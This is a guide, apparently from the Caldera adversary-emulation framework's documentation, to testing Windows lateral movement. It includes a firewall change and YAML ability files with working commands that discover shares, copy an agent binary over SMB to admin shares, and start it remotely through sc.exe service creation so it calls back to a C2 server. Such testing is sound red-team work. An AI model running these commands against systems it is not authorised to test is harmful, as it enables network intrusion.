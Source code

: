 # Windows Lateral Movement Guide

Exercising Caldera's lateral movement and remote execution abilities allows you to test how easily an adversary can move
within your network. This guide will walk you through some of the necessary setup steps to get started with testing 
lateral movement in a Windows environment.  

## Setup

### Firewall Exceptions and Enabling File and Printer Sharing

The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall
should also allow inbound file and printer sharing. 

```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
```

### User with Administrative Privileges

This guide will assume a user *with administrative privileges to the target host* has been compromised and that a CALDERA
agent has been spawned with this user's privileges. Some methods of lateral movement may depend on whether (1) the user 
has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain 
account. The example walkthrough in this guide should not be impacted by these distinctions.

### Additional Considerations

1. Ensure GPO/SRP or antivirus is not blocking remote access to shares.
2. Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.

## Lateral Movement Using CALDERA
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target 
host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires 
*execution* of the binary, which upon callback of the RAT on the new host would complete the lateral movement. 

Most of CALDERA's lateral movement and execution abilities found in Stockpile have fact or relationship requirements 
that must be satisfied. This information may be passed to the operation in two ways:
1. The fact and relationship information may be added to an operation's source. A new source can be created or this
information can be added to an already existing source as long as that source is used by the operation. When configuring
an operation, open the "**AUTONOMOUS**" drop down section and select "Use [insert source name] facts" to indicate to the 
operation that it should take in fact and relationship information from the selected source.
2. The fact and relationship information can be discovered by an operation. This requires additional abilities to be run
prior to the lateral movement and execution abilities to collect the necessary fact and relationship information 
necessary to satisfy the ability requirements. 

### Moving the Binary
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in 
CALDERA's lateral movement abilities include:
1. WinRM
2. SCP
3. wmic
4. SMB
5. psexec
 
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions 
remotely.

### Execution of the Binary
CALDERA's Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some 
additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide 
will use the creation of a service to remotely start the binary (ability file included at the end of this guide).

See ATT&CK's [Execution](https://attack.mitre.org/tactics/TA0002/) tactic page for more details on execution methods. 

### Displaying Lateral Movement in Debrief
Using the adversary profile in this guide and CALDERA's Debrief plugin, you can view the path an adversary took through 
the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was 
attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the 
originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly
spawned agent.

In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the `win10` 
host, which moved laterally to the `VAGRANTDC` machine via successful execution of the Service Creation ability.

![Debrief Attack Path Example](/img/debrief_attack_path.png)    

This capability relies on the `origin_link_id` field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, 54ndc47. For more information about the `#{origin_link_id}`
global variable, see the explanation of **Command** in the [What is an Ability?](/docs/Learning-the-Terminology.html#what-is-an-ability)
section of the Learning the Terminology guide. For more information about how lateral movement tracking is implemented 
in agents to be used with CALDERA, see the [Lateral Movement Tracking](/docs/How-to-Build-Agents.html#lateral-movement-tracking) 
section of the How to Build Agents guide.


## Example Lateral Movement Profile
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement
adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that
a 54ndc47 agent has been spawned with administrative privileges to the remote target host. The full ability files used 
in this adversary profile are included at the end of this guide.

1. Go to `navigate` pane > `Advanced` > `sources`. This should open a new sources modal in the web GUI.
2. Click the toggle to create a new source. Enter "SC Source" as the source name. Then enter `remote.host.fqdn` as the 
fact trait and the FQDN of the target host you are looking to move laterally to as the fact value. Click `Save` once 
source configuration has been completed.
3. Go to `navigate` pane > `Campaigns` > `operations`. Click the toggle to create a new operation. Under 
`BASIC OPTIONS` select the group with the relevant agent and the Service Creation Lateral Movement profile. Under 
`AUTONOMOUS`, select `Use SC Source facts`. If the source created from the previous step is not available in the 
drop down, try refreshing the page. 
4. Once operation configurations have been completed, click `Start` to start the operation.
5. Check the agents list for a new agent on the target host.

### Ability Files Used 
```
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
  name: View remote shares
  description: View the shares of a remote host
  tactic: discovery
  technique:
    attack_id: T1135
    name: Network Share Discovery
  platforms:
    windows:
      psh:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
      cmd:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
```

```
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
  name: Copy 54ndc47 (SMB)
  description: Copy 54ndc47 to remote host (SMB)
  tactic: lateral-movement
  technique:
    attack_id: T1021.002
    name: "Remote Services: SMB/Windows Admin Shares"
  platforms:
    windows:
      psh:
        command: |
          $path = "sandcat.go-windows";
          $drive = "\\#{remote.host.fqdn}\C$";
          Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
        cleanup: |
          $drive = "\\#{remote.host.fqdn}\C$";
          Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
        parsers:
          plugins.stockpile.app.parsers.54ndc47_remote_copy:
          - source: remote.host.fqdn
            edge: has_54ndc47_copy
        payloads:
        - sandcat.go-windows
  requirements:
  - plugins.stockpile.app.requirements.not_exists:
    - source: remote.host.fqdn
      edge: has_54ndc47_copy
  - plugins.stockpile.app.requirements.basic:
    - source: remote.host.fqdn
      edge: has_share
  - plugins.stockpile.app.requirements.no_backwards_movement:
    - source: remote.host.fqdn
```

```
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
  name: Service Creation
  description: Create a service named "sandsvc" to execute remote 54ndc57 binary named "s4ndc4t.exe"
  tactic: execution
  technique:
    attack_id: T1569.002
    name: 'System Services: Service Execution'
  platforms:
    windows:
      psh:
        timeout: 300
        cleanup: |
          sc.exe \\#{remote.host.fqdn} stop sandsvc;
          sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
          taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
        command: |
          sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
          sc.exe \\#{remote.host.fqdn} start sandsvc;
          Start-Sleep -s 15;
          Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;
```  